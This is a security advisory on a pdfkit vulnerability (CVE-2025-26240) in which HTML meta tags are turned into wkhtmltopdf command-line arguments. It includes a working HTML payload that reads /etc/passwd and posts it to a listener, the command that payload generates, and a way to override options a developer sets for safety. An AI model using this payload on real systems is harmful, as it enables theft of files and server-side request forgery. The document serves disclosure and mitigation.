

# **The *pdfkit* vulnerability (CVE-2025-26240)**
## **Summary**
The vulnerability in the pdfkit library is caused by parsing user-provided HTML in the `from_string` method, with no available options to mitigate the risk. The `from_string` method uses meta tags whose names start with “pdfkit-” and treats their values as command-line parameters for the `wkhtmltopdf` tool. This parsing is performed in the `_find_options_in_meta` method, located in the `pdfkit/pdfkit.py` file. While this functionality may be useful for certain use cases (such as setting the paper size), some `wkhtmltopdf` arguments pose security risks. 
## **Simple POC**
If we pass following html data into the `from_string` method we will be able to read the contents of the **/etc/passwd** file.

```html
<meta name='pdfkit---quiet' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-http://127.0.0.1:8080/?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```

There are a few constraints on the arguments that will be sent to wkhtmltopdf. The first is that the key must contain two dashes, which is why the last meta tag includes `--` in its name. The implementation of this check can be found in the `_normalize_options` method located in the `pdfkit/pdfkit.py` file.

```python
for key, value in list(options.items()):
    if '--' not in key:
        normalized_key = '--%s' % self._normalize_arg(key)
    else:
        normalized_key = self._normalize_arg(key) 
```

Due to insufficient validation, we are able to pass arguments that accept multiple values, not just key-value pairs. 

When we pass the example HTML file to the `from_string` method, we can see that the command generated and executed with the subprocess.Popen method is as follows:

`['/usr/local/bin/wkhtmltopdf', '--quiet', '--enable-local-file-access', '--post-file', 'file--a', '/etc/passwd', 'http://127.0.0.1:8080/?lfi-test=--', '--cache-dir', '-', '-']`

Resulting in following command:

`/usr/local/bin/wkhtmltopdf –quiet --enable-local-file-access --post-file file--a /etc/passwd http://127.0.0.1:8888/?lfi-test=-- --cache-dir - -`

This command sends the contents of the `/etc/passwd` file as an attachment in a POST request to `http://127.0.0.1:8888/?lfi-test=--` with the parameter `file--a`. The `--cache-dir` parameter is included solely to remove the extra dash added by the pdfkit library, ensuring that the wkhtmltopdf tool executes successfully.

When exploiting this vulnerability, we can observe that the contents of the `/etc/passwd` file are received on our Python listener.



In the same way, we can execute any JavaScript scripts by utilizing the `--script` command-line parameter, which runs the specified JavaScript code after generating the PDF, leading to SSRF and other potential vulnerabilities.
## **Bypass of pdfkit security measures**
The pdfkit library allows developers to provide an options dictionary for direct options that will be passed to `wkhtmltopdf`. The main issue is that these options can be easily bypassed due to Python’s way of handling dictionaries.

The options initialization is defined in `pdfkit/pdfkit.py` as follows:

```python
self.options = OrderedDict()
if self.source.isString():
    self.options.update(self._find_options_in_meta(url_or_file))
    self.environ = self.configuration.environ
    if options is not None:
        self.options.**update**(options)
```

The main issue is that Python preserves the order of keys when using the update method. For example, if we have the dictionary `{"a": 10, "b": 20}` and call update on it with `{"a": 15}`, the resulting dictionary will be `{"a": 15, "b": 20}`.

An attacker can always manipulate the order of command-line arguments sent to wkhtmltopdf. If a developer attempts to enforce security options such as `{"disable-javascript": "", "disable-local-file-access": ""}`, the attacker can set these options first and then override them by adding their counterparts, such as `enable-javascript` or `enable-local-file-access`. 
## **Easiest solution for developers**
The easiest solution to this vulnerability is probably to use other methods then `from_string`. For example developer can save the provided HTML to temporary file and then use `from_file` method, which doesn’t parse the meta tags. 

